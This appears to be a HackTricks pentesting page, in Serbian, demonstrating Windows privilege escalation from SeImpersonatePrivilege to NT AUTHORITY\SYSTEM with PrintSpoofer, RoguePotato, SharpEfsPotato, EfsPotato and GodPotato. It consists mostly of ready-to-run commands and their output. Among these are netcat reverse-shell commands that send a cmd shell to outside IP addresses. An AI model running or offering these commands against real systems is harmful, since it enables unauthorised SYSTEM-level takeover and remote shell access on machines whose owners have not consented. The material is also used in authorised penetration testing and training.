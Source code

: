 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato

{{#include ../../banners/hacktricks-training.md}}

> [!WARNING] > **JuicyPotato ne radi** na Windows Server 2019 i Windows 10 build 1809 i novijim verzijama. Međutim, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato)**,** [**EfsPotato**](https://github.com/zcgonvh/EfsPotato)**,** [**DCOMPotato**](https://github.com/zcgonvh/DCOMPotato)** mogu se koristiti za **iskorišćavanje istih privilegija i dobijanje `NT AUTHORITY\SYSTEM`\*\* nivo pristupa. Ovaj [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) detaljno objašnjava alat `PrintSpoofer`, koji se može koristiti za zloupotrebu privilegija impersonacije na Windows 10 i Server 2019 hostovima gde JuicyPotato više ne radi.

## Brza Demo

### PrintSpoofer
```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```
### RoguePotato
```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```
### SharpEfsPotato
```bash
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
SharpEfsPotato by @bugch3ck
Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\temp>type C:\temp\w.log
nt authority\system
```
### EfsPotato
```bash
> EfsPotato.exe "whoami"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: NT Service\MSSQLSERVER
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=aeee30)
[+] Get Token: 888
[!] process with pid: 3696 created.
==============================
[x] EfsRpcEncryptFileSrv failed: 1818

nt authority\system
```
### GodPotato
```bash
> GodPotato -cmd "cmd /c whoami"
# You can achieve a reverse shell like this.
> GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### DCOMPotato

![image](https://github.com/user-attachments/assets/a3153095-e298-4a4b-ab23-b55513b60caa)

## Reference

- [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
- [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
- [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)
- [https://github.com/zcgonvh/DCOMPotato](https://github.com/zcgonvh/DCOMPotato)

{{#include ../../banners/hacktricks-training.md}}
